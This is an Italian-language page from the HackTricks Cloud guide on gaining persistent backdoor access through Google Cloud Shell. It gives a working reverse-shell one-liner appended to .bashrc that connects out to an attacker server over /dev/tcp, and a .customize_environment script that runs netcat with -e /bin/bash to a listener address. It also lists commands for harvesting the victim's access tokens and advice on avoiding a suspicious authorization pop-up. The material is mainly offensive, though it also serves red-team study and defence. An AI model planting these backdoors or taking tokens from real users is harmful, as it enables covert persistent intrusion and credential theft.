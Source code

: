 # GCP - Persistenza di Cloud Shell

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team di HackTricks AWS)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* repository di github.

</details>

## Cloud Shell

Per ulteriori informazioni controlla:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Backdoor Persistente

[**Google Cloud Shell**](https://cloud.google.com/shell/) ti fornisce accesso alla riga di comando alle risorse cloud direttamente dal tuo browser senza alcun costo associato.

Puoi accedere alla Cloud Shell di Google dalla **console web** o eseguendo **`gcloud cloud-shell ssh`**.

Questa console ha alcune capacità interessanti per gli attaccanti:

1. **Qualsiasi utente Google con accesso a Google Cloud** ha accesso a un'istanza di Cloud Shell completamente autenticata (gli Account di Servizio possono, anche essendo Proprietari dell'organizzazione).
2. Tale istanza **manterrà la propria directory home per almeno 120 giorni** se non avviene alcuna attività.
3. Non ci sono **capacità per un'organizzazione di monitorare** l'attività di quell'istanza.

Questo significa essenzialmente che un attaccante potrebbe inserire un backdoor nella directory home dell'utente e fintanto che l'utente si connette alla GC Shell almeno ogni 120 giorni, il backdoor sopravviverà e l'attaccante otterrà una shell ogni volta che viene eseguito semplicemente facendo:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

C'è un altro file nella cartella home chiamato **`.customize_environment`** che, se esiste, verrà **eseguito ogni volta** che l'utente accede alla **shell cloud** (come nella tecnica precedente). Basta inserire il backdoor precedente o uno simile al seguente per mantenere la persistenza finché l'utente utilizza "frequentemente" la shell cloud:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
È importante notare che la **prima volta che viene eseguita un'azione che richiede l'autenticazione**, compare una finestra di autorizzazione a comparsa nel browser dell'utente. Questa finestra deve essere accettata prima che il comando possa essere eseguito. Se compare una finestra di pop-up inaspettata, potrebbe destare sospetti e compromettere potenzialmente il metodo di persistenza in uso.
{% endhint %}

Questo è il pop-up generato dall'esecuzione di `gcloud projects list` dalla shell cloud (come attaccante) visualizzato nella sessione utente del browser:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Tuttavia, se l'utente ha utilizzato attivamente la cloud shell, il pop-up non comparirà e potrai **raccogliere i token dell'utente con**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Come viene stabilita la connessione SSH

Fondamentalmente, vengono utilizzate queste 3 chiamate API:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (ti farà aggiungere la tua chiave pubblica creata localmente)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (ti farà avviare l'istanza)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (ti dirà l'indirizzo IP del cloud shell di Google)

Ma puoi trovare ulteriori informazioni in [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Riferimenti

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
